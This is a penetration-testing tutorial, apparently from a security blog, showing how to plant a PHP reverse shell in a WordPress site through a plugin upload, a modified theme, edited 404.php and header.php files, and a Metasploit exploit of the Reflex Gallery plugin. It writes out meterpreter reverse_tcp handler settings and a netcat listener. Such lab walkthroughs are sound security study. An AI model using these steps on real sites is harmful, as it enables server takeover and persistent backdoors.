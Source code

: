 
#### **PHP Reverse Shell**

After exploit a remote command execution vulnerability then we can use a reverse shell to obtain an interactive shell session on the target machine. Throughout our article we are going to use this web shell to achieve the reverse shell of the target machine. Ready  **![😛]We execute the given command to edit the localhost address from the malicious shell.

nano /usr/share/webshells/php/php-reverse-shell.php

![](https://secnhack.in/wp-content/uploads/2021/01/1-5.png)

We are doing this demonstration in a lab environment so we already have access to the admin panel of the target WordPress CMS that you should also have.

![](https://secnhack.in/wp-content/uploads/2021/01/2-6.png)

#### **Shell Uploading through Plugin**

In our first attempt, we will upload our shell through wordpress “**Add Plugin**” feature. Go to the Plugins section, select Add New, go to the location and select php reverse shell and upload it by clicking on “**Install Now**” button.

![](https://secnhack.in/wp-content/uploads/2021/01/3-6.png)

Basically the plugin should be in the .zip file format and we uploaded a file with the **.php** extension which caused the error. Just ignore this error and proceed to the next step.

![](https://secnhack.in/wp-content/uploads/2021/01/4-6.png)

Basically the WordPress CMS has an “**uploads**” directory, where the uploaded file is saved. After accessing the correct directory browse the location on the browser with php reverse shell.

192.168.1.13:8000/wp-content/uploads/2021/01/php-reverse-shell.php

![](https://secnhack.in/wp-content/uploads/2021/01/5-6.png)

**Amazing ![😛]() !!** We go back to the system and setup the multi-handler to capture the target meterpreter session. After refreshing the location again we get the meterpreter session of the target web server.

use exploit/multi/handler

set payload php/meterpreter/reverse_tcp

set lhost 192.168.1.13

set lport 1234

run

![](https://secnhack.in/wp-content/uploads/2021/01/6-7.png)

As well as we also can use netcat listener to get reverse shell of the target web server.

nc -lvp 1234

![](https://secnhack.in/wp-content/uploads/2021/01/7-8.png)

#### **Shell Uploading through Theme**

In this effort we will transfer our malicious shell through the templates. Choose any new WordPress theme according to you or you can download our theme from here. Once downloaded then extract the zip file and go inside the theme’s folder, where you will find the “**index.html**” file.


https://wordpress.org/themes/twentytwenty/

![](https://secnhack.in/wp-content/uploads/2021/01/8-7.png)

Just open it and replace the entire content with malicious php reverse shell.

![](https://secnhack.in/wp-content/uploads/2021/01/9-6.png)

Compress that folder again into zip file format.

![](https://secnhack.in/wp-content/uploads/2021/01/10-5.png)

Go the theme section, click on add new and select the modified zip file and upload it.

![](https://secnhack.in/wp-content/uploads/2021/01/11-5.png)

Another step left is to activate the uploaded template.

![](https://secnhack.in/wp-content/uploads/2021/01/12-4.png)

access the main web page after activating the template, we have the reverse shell of the target web server.

![](https://secnhack.in/wp-content/uploads/2021/01/13-4.png)

#### **Shell Uploading into 404.php File**

As we know that the 404. php file is used on a page not found error, so we can use this file get reverse shell of target machine. Simply remove the entire code inside the 404.php file.

![](https://secnhack.in/wp-content/uploads/2021/01/14-2.png)

Copy and paste the code of the malicious PHP file here and save. The localhost address has to be changed there.

![](https://secnhack.in/wp-content/uploads/2021/01/15-2.png)

We go to the browser, click on any post and add our arbitrary text between the URLs to get a 404 error.

![](https://secnhack.in/wp-content/uploads/2021/01/16-2.png)

But actually we get the reverse shell of the target web server without any doubt.

![](https://secnhack.in/wp-content/uploads/2021/01/17-2.png)

#### **Shell Uploading into header.php file**

As we know the header is all the content that is displayed on all the pages of your site, so we upload our malicious shell here.

![](https://secnhack.in/wp-content/uploads/2021/01/18-2.png)

As soon as we save the header file with malicious shell, then we get the reverse shell of the target web application.

![](https://secnhack.in/wp-content/uploads/2021/01/19-2.png)

#### **Shell Uploading through Vulnerable Plugin**

Sometimes plugins installed in WordPress CMS are vulnerable, by taking advantage of which we can upload our malicious PHP shells to the target server and get reverse shells. In our case, as you can see a vulnerable plugin called [**Reflex**](https://www.exploit-db.com/exploits/36374) is located on the WordPress CMS, so now we will try to exploit target mahcine by uploading shell through this plugin.

![](https://secnhack.in/wp-content/uploads/2021/01/20-2.png)

We usually discover exploits by putting the name of that plugin on the metasploit Framework. Really we get the exploit


search reflex

![](https://secnhack.in/wp-content/uploads/2021/01/21-1.png)

As soon as we fill the target details and run the exploit then it automatically uploads the malicious shell to the target web server as you can see in the image below.


use exploit/unix/webapp/wp_reflexgallery_file_upload

set rhosts 192.168.1.13

set rport 8000

run

![](https://secnhack.in/wp-content/uploads/2021/01/22-1.png)

**Finally**, we get the meterpreter session, from where we can remotely manage, add, delete, and perform many activities on the target web server.